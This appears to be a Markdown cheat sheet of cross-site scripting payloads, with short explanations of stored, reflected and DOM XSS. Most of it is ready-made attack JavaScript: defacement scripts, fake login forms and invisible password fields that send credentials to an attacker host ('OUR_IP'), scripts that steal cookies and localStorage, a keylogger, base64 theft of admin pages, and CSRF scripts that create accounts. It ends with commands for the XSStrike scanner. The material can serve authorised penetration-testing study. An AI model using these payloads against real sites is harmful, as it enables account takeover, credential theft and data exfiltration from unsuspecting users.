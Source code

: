 # Cross Site Scripting (XSS)

XSS vulnerabilities take advantage of a flaw in user input sanitization to "write" JavaScript code to the page and execute it on the client side, leading to several types of attacks.
XSS vulnerabilities are solely executed on the client-side and hence do not directly affect the back-end server. They can only affect the user executing the vulnerability. The direct impact of XSS vulnerabilities on the back-end server may be relatively low, but they are very commonly found in web applications, so this equates to a medium risk (low impact + high probability = medium risk), which we should always attempt to reduce risk by detecting, remediating, and proactively preventing these types of vulnerabilities.

**Types of XSS**

There are three main types of XSS vulnerabilities:
| Type                       | Description                                                                                                                                                                                                                   |
|----------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Stored (Persistent) XSS    | The most critical type of XSS, which occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments)                                                                    |
| Reflected (Non-Persistent) XSS | Occurs when user input is displayed on the page after being processed by the backend server, but without being stored (e.g., search result or error message)                                                                |
| DOM-based XSS              | Another Non-Persistent XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side, without reaching the back-end server (e.g., through client-side HTTP parameters or anchor tags) |

**Example Payload**
````
<script> alert(1) </script>
"><script> alert(1) </script>
<img src=x onerror=alert(1)></img>
<svg src=x onerror=alert(1)></svg>
````

## Stored XSS

Stored XSS or Persistent XSS. If our injected XSS payload gets stored in the back-end database and retrieved upon visiting the page, this means that our XSS attack is persistent and may affect any user that visits the page.
This makes this type of XSS the most critical, as it affects a much wider audience since any user who visits the page would be a victim of this attack. Furthermore, Stored XSS may not be easily removable, and the payload may need removing from the back-end database.

## Reflected XSS

Reflected XSS vulnerabilities occur when our input reaches the back-end server and gets returned to us without being filtered or sanitized. There are many cases in which our entire input might get returned to us, like error messages or confirmation messages. In these cases, we may attempt using XSS payloads to see whether they execute. However, as these are usually temporary messages, once we move from the page, they would not execute again, and hence they are Non-Persistent.

## DOM XSS

DOM XSS occurs when JavaScript is used to change the page source through the Document Object Model (DOM).

## Defacing 

Four HTML elements are usually utilized to change the main look of a web page:

- Background Color document.body.style.background
- Background document.body.background
- Page Title document.title
- Page Text DOM.innerHTML

````
<script>document.body.style.background = "#141d2b"</script>
<script>document.title = '<Change Title>'</script>
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white"><Defacing></h1><p style="color: white">by <img src="<Image>" height="25px" alt="<Defacing>"> </p></center>'</script>
````

## Phishing 

````
<script>document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove(); </script>
````
````
phishing.js

fetch("login").then(res => res.text().then(data => {
document.getElementsByTagName("html")[0].innerHTML = data
document.getElementsByTagName("form")[0].action = "http://<OUR_IP>"
document.getElementsByTagName("form")[0].method = "get"
}))
````
````
StealPasswords.js

let body = document.getElementsByTagName("body")[0]
var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
u.style.opacity = "0";

var p = document.createElement("input");
p.type = "password";
p.style.position = "fixed";
p.style.opacity = "0";

body.append(u)
body.append(p)
setTimeout(function(){ 
          fetch("http://<OUR_IP>/k?u=" + u.value + "&p=" + p.value)
}, 5000);
````

## Session Hijacking

### Cookies
````
StealSession.js

let cookie = document.cookie
let encodedCookie = encodeURIComponent(cookie)
fetch("http://<OUR_IP>/exfil?data=" + encodedCookie)

<script src="http://OUR_IP/StealSession.js"></script>
````
````
StealSession2.js

document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie

<script src="http://OUR_IP/StealSession2.js"></script>
````
````
<script>fetch('http://OUR_IP/cookie?c='+document.cookie);</script>
<script>document.location='http://OUR_IP/index.php?c='+document.cookie;</script>
<img src=x onerror=fetch("http://<Our_IP>/?c="+document.cookie></img>
````

### LocalStorage
````
StealLocalStorage.js

let data = JSON.stringify(localStorage)
let encodedData = encodeURIComponent(data)
fetch("http://<Our_IP>/exfil?data=" + encodedData)

<script src="http://OUR_IP/StealLocalStorage.js"></script>
````
````
<img src=x onerror=fetch("http://<Our_IP>/?c="+JSON.stringify(localStorage))></img>
````

## Keylooger

````
KeyLogger.js

function logkey(event){
  fetch("http://IP/?key="+event.key);
}
document.addEventListener("keydown", logkey);  

<script src="http://OUR_IP/KeyLogger.js"></script>
````

## Steal Pages

````
<script>fetch("http://<admin_page>").then(response => response.text()).then(text => btoa(text)).then(encoded => fetch("http://<OUR_IP>:<PORT>/resp?data="+encoded));</script>
````
````
PageSteal.js

fetch("http://<admin_page>")
  .then(response => response.text())
  .then(text => btoa(text))
  .then(encoded => fetch("http://<OUR_IP>:<PORT>/resp?data="+encoded));

<script src="http://OUR_IP/PageSteal.js"></script>
````

## Cross Site Request Forgery
````
csrf.js

document.write(`
   <html>
  <body>
    <form action="/loginLogout" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="&#95;token" value="m8tXk2sI6KI8Gq5llWNjpFvp0sQBlLgYCvvhZKO2" />
      <input type="hidden" name="username" value="myadmin" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
`);

<script src="http://OUR_IP/csrf.js"></script>
````
````
<script>fetch("http://<admin_page>/add?email=<email>&password=<password>&name=<name>&username=<user>").then(response => response.text()).then(text => btoa(text)).then(encoded => fetch("http://<OUR_IP>:<PORT>/resp?data="+encoded));</script>
````

## Auto Discovery 
````
$ git clone https://github.com/s0md3v/XSStrike.git
$ cd XSStrike
$ pip install -r requirements.txt
$ python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"
````
